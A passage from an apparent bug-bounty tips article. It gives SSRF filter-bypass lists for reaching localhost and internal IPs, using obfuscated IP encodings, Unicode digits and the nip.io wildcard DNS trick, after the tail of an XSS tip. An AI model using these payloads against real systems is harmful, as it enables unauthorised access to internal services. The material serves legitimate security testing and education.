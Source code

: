 Tested to work on Chrome, Firefox and Safari browsers, possibly others as well.

**Protip**: Have a look on the XSS cheat sheet from PortSwigger listing various content-types [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#content-types).

## 13\. SSRF Bypass list for localhost (127.0.0.1)

By [@LooseSecurity](https://twitter.com/LooseSecurity), [@ADITYASHENDE17](https://twitter.com/ADITYASHENDE17), [@imranparray101](https://twitter.com/imranparray101), [@h43z](https://twitter.com/h43z)  
Source: [link](https://twitter.com/LooseSecurity/status/1331270289733324805)

(1) This is a list of possible bypasses for exploiting of SSRF (Server Side Request Forgery) vulnerabilities:

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

(2) You can also use Unicode characters for bypassing, as it was advised on the tweet by [@ADITYASHENDE17](https://twitter.com/ADITYASHENDE17):

```bash
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥:80/
```

(3) You can also utilize the [nio.io](https://nip.io/) service, which is a simple wildcard DNS service for any IP address, as pointed out by [@imranparray101](https://twitter.com/imranparray101). Here’s how it works:

-   `<anything>.nip.io` will resolve to `<anything>`

A real world example:

-   `http://127.0.0.1.nip.io:8080` will point to `127.0.0.1:8080`

(4) Lastly, [@h43z](https://twitter.com/h43z) also shared this list of SSRF bypasses:

```bash
http://0xd8.0x3a.0xd6.0xe3
http://0xd83ad6e3
http://0xd8.0x3ad6e3
http://0xd8.0x3a.0xd6e3
http://0330.072.0326.0343
http://000330.0000072.0000326.00000343
http://033016553343
http://3627734755
http://%32%31%36%2e%35%38%2e%32%31%34%2e%32%32%37
http://216.0x3a.00000000326.0xe3
```
